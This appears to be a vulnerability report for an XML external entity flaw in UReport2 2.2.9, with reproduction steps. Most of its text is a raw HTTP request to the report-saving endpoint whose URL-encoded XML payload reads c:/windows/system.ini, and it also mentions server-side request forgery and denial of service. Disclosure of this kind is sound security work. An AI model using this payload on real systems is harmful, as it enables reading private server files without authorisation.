 Ureport2 XXE


The interface for saving reports does not disable external entity parsing when parsing xml data, resulting in the possibility of submitting malicious data for injection of xml external entities, reading arbitrary files in the operating system, and causing ssrf to detect intranet information by writing a large number of cyclically called entities Carry out dos attacks, etc.

The vulnerable code  at file：ureport2-core-2.2.9.jar   method：com.bstek.ureport.parser.ReportParser.parse
as the picture：
![image](https://user-images.githubusercontent.com/20945826/212481354-aba5deba-8e47-4a79-9e14-16850ff0ff16.png)

It is found that the program directly reads the xml information, and it is not configured to prohibit external entity references, resulting in xxe

Reproduce the local build environment:
Use idea to build a Springboot demo project and introduce ureport2：

![image](https://user-images.githubusercontent.com/20945826/212481453-6dd7ba4e-995c-4b12-88cb-01f6168c6e5e.png)

Exploiting the Vulnerability

save a report
![image](https://user-images.githubusercontent.com/20945826/212481525-11a0137f-ecf4-44ba-97ed-ef151aef9651.png)

the http message：
![image](https://user-images.githubusercontent.com/20945826/212481596-ad365ac0-47a3-4766-8b35-80f4045aabe5.png)

now add the xxe payload to post program 'content'
the xml content with payload：
![image](https://user-images.githubusercontent.com/20945826/212481879-cba0fc9b-b00f-42b8-9382-251f87989b8c.png)


    
submit data,the http message:
![image](https://user-images.githubusercontent.com/20945826/212482020-d7abe2b9-df61-4b59-a675-b80ca783df6f.png)

POST /ureport/designer/saveReportFile HTTP/1.1
Host: 192.168.66.39:8881
Content-Length: 3936
Accept: */*
Origin: http://192.168.66.39:8881
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.66.39:8881/ureport/designer
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=F988AAC7F0ED6210948EE2DB114A8A86
Connection: close

file=file%3Atets1.ureport.xml&content=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+x+%5B+%3C!ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fsystem.ini%22%3E%5D%3E%3Cureport%3E%3Ccell+expand%3D%22None%22+name%3D%22A1%22+row%3D%221%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B1%22+row%3D%221%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C1%22+row%3D%221%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D1%22+row%3D%221%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A2%22+row%3D%222%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B2%22+row%3D%222%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C2%22+row%3D%222%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D2%22+row%3D%222%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A3%22+row%3D%223%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B3%22+row%3D%223%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C3%22+row%3D%223%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D3%22+row%3D%223%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%26xxe%3B%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Crow+row-number%3D%221%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%222%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%223%22+height%3D%2218%22%2F%3E%3Ccolumn+col-number%3D%221%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%222%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%223%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%224%22+width%3D%2280%22%2F%3E%3Cpaper+type%3D%22A4%22+left-margin%3D%2290%22+right-margin%3D%2290%22%0A++++top-margin%3D%2272%22+bottom-margin%3D%2272%22+paging-mode%3D%22fitpage%22+fixrows%3D%220%22%0A++++width%3D%22595%22+height%3D%22842%22+orientation%3D%22portrait%22+html-report-align%3D%22left%22+bg-image%3D%22%22+html-interval-refresh-value%3D%220%22+column-enabled%3D%22false%22%3E%3C%2Fpaper%3E%3C%2Fureport%3E

now open the report we can get the file content at c:/windows/system.ini
![image](https://user-images.githubusercontent.com/20945826/212482215-48d96b63-15b4-4b8a-a222-1f4b2e8c7998.png)

for more, An XML External Entity (XXE) can also cause ssrf and dos
ssrf:
![image](https://user-images.githubusercontent.com/20945826/219539462-498cd482-6893-4328-881f-a3b69fc340a7.png)

